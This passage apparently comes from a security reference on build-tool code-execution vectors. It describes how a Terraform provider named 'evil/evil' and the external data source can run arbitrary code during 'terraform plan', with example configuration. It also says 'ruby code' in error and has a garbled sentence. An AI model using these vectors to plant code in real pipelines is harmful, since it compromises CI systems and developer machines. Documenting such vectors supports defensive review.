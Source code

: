 References:
- [Bundler Docs: gemfile - Path](https://bundler.io/v1.16/gemfile_man.html#PATH)

# terraform

## terraform-plan

Terraform relies on plugins called ["providers"](https://www.terraform.io/docs/language/providers/configuration.html) to interact with remote systems. Terraform configurations must declare which providers they require, so that Terraform can install and use them. 

You can write a [custom provider](https://learn.hashicorp.com/tutorials/terraform/provider-setup), publish it to the [Terraform Registry](https://registry.terraform.io/) and add the provider to the Terraform code.

```tf
terraform {
  required_providers {
    evil = {
      source  = "evil/evil"
      version = "1.0"
    }
  }
}

provider "evil" {}
```

```bash
$ terraform init
$ terraform plan
```

The provider will be pulled in during `terraform init` and when `terraform plan` is run the arbitrary ruby code will be executed.

Additionally, Terraform offers the [external provider](https://registry.terraform.io/providers/hashicorp/external/latest/docs) which provides a way to interface between Terraform and external programs. Therefore, you to use the `external` data source to run arbitrary code. The following example from [docs](https://registry.terraform.io/providers/hashicorp/external/latest/docs/data-sources/data_source) executes a python script during `terraform plan`.

```tf
data "external" "example" {
  program = ["python", "${path.module}/example-data-source.py"]

  query = {
    # arbitrary map from strings to strings, passed
    # to the external program as the data query.
    id = "abc123"
  }
}
```
